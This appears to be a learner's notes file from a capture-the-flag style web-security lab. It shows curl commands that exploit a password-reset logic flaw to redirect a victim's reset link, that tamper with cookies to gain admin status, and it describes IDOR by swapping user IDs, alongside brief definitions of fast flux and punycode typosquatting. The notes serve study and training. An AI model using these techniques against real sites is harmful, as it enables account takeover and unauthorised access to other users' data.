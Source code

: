 ===============================================================================
# curl
```
# send data (input) to the web using crul
curl 'http://10.10.217.234/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
-d	# specifies the data (input) that we are going to send
-H	# is used for adding additional headers to the request, like "Content-Type: application/x-www-form-urlencoded"

# bypassing the logic flaw to send the rest pass link to our injected email [after above command]
curl 'http://10.10.217.234/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'

curl -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "file=flag.txt" \
  http://10.10.148.154/challenges/chall1.php

# changing cookies in header
curl -H "Cookie: logged_in=true; admin=false" http://10.10.217.234/cookie-test
curl -H "Cookie: logged_in=true; admin=true" http://10.10.217.234/cookie-test


```

===============================================================================
# Info
```
Fast Flux		# having multiple IP addresses associated with a domain name, which is constantly changing and acting as proxies
Punycode		# a way of converting words that cannot be written in ASCII, into a Unicode ASCII encoding (used in url typo attacks),
			# the URL adıdas.de which has the Punycode of http://xn--addas-o4a.de/
URL Shortener		# creates a short and unique URL. bit.ly, goo.gl, ow.ly, s.id, smarturl.it, tiny.pl, tinyurl.com, x.co
Any.run


===============================================================================
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.
This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

Encoded IDs

hash values
https://crackstation.net/

create two accounts and swap the Id numbers between them

The Your Account section gives you the ability to change your information such as username, email address and password. You'll notice the username and email fields pre-filled in with your information.  

We'll start by investigating how this information gets pre-filled. If you open your browser developer tools, select the network tab and then refresh the page, you'll see a call to an endpoint with the path /api/v1/customer?id={user_id}.		# we can edit and resend it ?id=3

```
===============================================================================